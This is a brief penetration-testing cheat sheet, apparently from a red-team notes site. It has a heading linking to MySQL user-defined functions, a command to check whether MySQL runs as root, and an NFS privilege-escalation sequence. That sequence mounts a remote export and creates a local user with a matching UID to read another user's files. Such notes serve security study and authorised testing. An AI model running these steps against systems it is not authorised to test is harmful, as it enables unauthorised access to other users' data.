 ### [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```
